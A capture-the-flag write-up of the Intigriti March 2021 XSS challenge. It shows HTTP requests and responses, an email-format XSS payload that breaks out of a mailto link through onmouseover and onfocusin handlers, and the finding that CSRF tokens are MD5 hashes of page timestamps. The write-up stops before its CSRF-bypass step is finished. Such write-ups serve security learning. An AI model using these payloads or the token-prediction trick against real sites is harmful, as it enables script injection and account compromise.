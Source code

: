 
Intigriti March XSS challenge

Problem Statement
----------------------
URL : https://challenge-0321.intigriti.io/

![image](https://user-images.githubusercontent.com/19681324/113403529-6c9c7c80-93c4-11eb-8f6f-b5aa5ee503e0.png)

Let's Pop an alert
------------------
At the bottom of the page there is an **Your notes:** section. 
![image](https://user-images.githubusercontent.com/19681324/113403778-d026aa00-93c4-11eb-88f6-7d793631fccc.png)

Check out the source of the html page
```html
  <div class="card-container">
         <form method="POST" action="./" id="update-notes">
            <div class="card-header">Your notes:<span id="actions"><a id="notes-save" href="#">save</a></span></div>
            <p id="notes-display" class="card-content" contenteditable="true">No notes saved.</p>
            <input type="hidden" name="csrf" value="6896be5ae9b23b85432afab717277824"/>
            <input type="hidden" id="notes-value"  name="notes" value=""/>
         </form>
      </div>
      <script>
          var _note = document.getElementById("notes-display").innerText;   // (1)
          document.getElementById("notes-display").onkeyup = function(e){   // (2)
            var note = document.getElementById("notes-display").innerText;
            if(note != _note){
              document.getElementById("notes-save").style.visibility = "visible";
            }
            else{
              document.getElementById("notes-save").style.visibility = "hidden";
            }
          }
          document.getElementById("notes-save").onclick = function(e){  // (3)
            document.getElementById('notes-value').value = document.getElementById('notes-display').innerText;
            this.closest('form').submit();
            return false;
          }
      </script>
   </body>
   <!-- page generated at 2021-04-02 09:36:09 --> 
</html>
```
Break down the source in different steps:
  - There is a form with id update-notes. Notable thing in the form is `<p>` tag with attribute `contenteditable="true"`, we will revisit this cause this important.
    - Form has two hidden input field: csrf , notes
    - csrf value 6896be5ae9b23b85432afab717277824 seems to be an MD5 value
    - ![image](https://user-images.githubusercontent.com/19681324/113405642-c6eb0c80-93c7-11eb-9e47-f29410a59178.png)
  - Script section
    - (1) declare _note and assing innerText of note-display paragraph
    - (2) onkeyup event on note-display check note-display paragraph innerText is changed, if yes then display the save button, else hide the save button
    - (3) on clicking the save button assign the innerText of notes-display to notes-value and submit the form.
  - one more interesting thing to note is the comment `<!-- page generated at 2021-04-02 09:36:09 --> ` at the bottom of the page

Changing the note and clicking on save will send a POST request and updated note will be reflected on the page
```html
POST / HTTP/1.1
Host: challenge-0321.intigriti.io
Connection: close
Content-Length: 58
Cookie: PHPSESSID=46c7eeb13d285bc57ef010c799372735

csrf=36cd9b23b082ae06c73c73e79a6dc64f&notes=No+notes+saved
```
If we add  special character like <> , & these were being html escaped in the response from the server, however charaters like !, #, $, @, ^,*,(,),',"  were not html escaped
```html
POST / HTTP/1.1
Host: challenge-0321.intigriti.io
Cookie: PHPSESSID=46c7eeb13d285bc57ef010c799372735

csrf=504d6da7a099d980ac787f87850626b4&notes=No+notes+saved+%3C%3E%3C%3C%21%23%24%40%5E%26*%23%28%23%29+%27%22%2C
```
Response

```html
     <div class="card-container">
         <form method="POST" action="./" id="update-notes">
            <div class="card-header">Your notes:<span id="actions"><a id="notes-save" href="#">save</a></span></div>
            <p id="notes-display" class="card-content" contenteditable="true">No notes saved &lt;&gt;&lt;&lt;!#$@^&amp;*#(#) '",</p>
            <input type="hidden" name="csrf" value="be98377d284ac8c558ac9c8303f50ab1"/>
            <input type="hidden" id="notes-value"  name="notes" value=""/>
         </form>
      </div>
```

One interesting transformation of response occure while updating note-display to an url or email
```html
POST / HTTP/1.1
Host: challenge-0321.intigriti.io
Cookie: PHPSESSID=46c7eeb13d285bc57ef010c799372735

csrf=e15e6d924554f427fd53ff9b5b319069&notes=https://www.google.com+abc@def.com
```
Response
```html
<p id="notes-display" class="card-content" contenteditable="true">
  <a href="https://www.google.com " target="_blank">https://www.google.com </a>
  <a href="mailto:abc@def.com">abc@def.com</a>
</p>
```
URL and email addresses are turning into an anchor tag.
![image](https://user-images.githubusercontent.com/19681324/113423650-7df97f00-93ec-11eb-8e96-b8fda73ef182.png)

However invalid email addresses and URL were not getting transformed e.g. invalid url- https:/www.google.com   invalid email - @soemthing.com
```html
  <p id="notes-display" class="card-content" contenteditable="true">
    https:/www.google.com  @soemthing.com
  </p>
```

Tried a lot with url to escape the anchor tag and alert the flag, but didn't work. 
Doing a simple google search with the text xss email payload , first result is https://brutelogic.com.br/blog/xss-limited-input-formats/  which suggest a xss payload to use is `"<svg/onload=alert(1)>"@x.y` , bruteforce tweets this as well
![image](https://user-images.githubusercontent.com/19681324/113426701-79839500-93f1-11eb-8a37-c33d39ec712b.png)

but <> characters are escaped by the server side
```html
<a href="mailto:"&lt;svg/onload=alert(1)&gt;"@x.y">"&lt;svg/onload=alert(1)&gt;"@x.y</a>
```
however " are not escaped, as we can see avobe we came out of href attribute. So changing the payload slightly to `"onmouseover=alert('flag{THIS_IS_THE_FLAG}');"@x.y` we get a response like this
```html
<p id="notes-display" class="card-content" contenteditable="true">
<a href="mailto:"onmouseover=alert('flag{THIS_IS_THE_FLAG}');"@x.y">"onmouseover=alert('flag{THIS_IS_THE_FLAG}');"@x.y</a>
```
which gets us an alert 
![image](https://user-images.githubusercontent.com/19681324/113427645-0a0ea500-93f3-11eb-93b3-9571e871e645.png)

However this involves user interaction, to avoid user interaction we hope over to the burpsuite xss cheat sheet.https://portswigger.net/web-security/cross-site-scripting/cheat-sheet  we have two specific payloads which works in chrome, does not work in firefox though
![image](https://user-images.githubusercontent.com/19681324/113430130-447a4100-93f7-11eb-915b-925d8532a2d1.png)

and both of these payloads can be triggered by using #x ( id used in the payload ) in the url. so the resultant payload would be `"id='x'tabindex='1'onfocusin='alert(flag.innerText)'"@x.y`

It's not solved yet, as mentioned in the solution section of the CTF self-xss are not allowed. so we have to trick someone into clicking a link and triggering the xss. but there is one problem. There is CSRF protection. Using an invalid csrf token gives us a 403 forbidden response and csrf token changes each time we send a request to the server
```html
HTTP/1.1 403 Forbidden
Server: nginx/1.17.10
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
```
 
Bypassing CSRF
-------------
To bypass CSRF protection, we have to analyze the working or csrf token
1. When you browse the url https://challenge-0321.intigriti.io/ for the first time application set the session id in the cookie and returns a CSRF token along with a commentes timestamp at the bottom of the page ```  <input type="hidden" name="csrf" value="12b0fbaa60f0656c93ad0278e0f59d91"/>   <!-- page generated at 2021-04-04 02:22:43 --> ```
2. Hop over to the cyberchef to check that the csrf token is the md5 hash of the page generated timestamp ![image](https://user-images.githubusercontent.com/19681324/113497370-142ec180-9521-11eb-9dbd-90cedd7d9435.png)

3.  



Things i tried but didn't work
------------------------------

tried `javascript://%0Aalert(1)`
tried `"<svg/onload=alert(1)>"@x.y`


Reference
--------------
- https://holme-sec.medium.com/timestamps-and-weird-emails-a-solution-for-intigritis-0321-challenge-849dfee9e798
- https://infosecwriteups.com/intigriti-xss-challenge-0321-472ae0a48254
- https://blog.isiraadithya.com/intigriti-0321-xss-challenge-writeup/
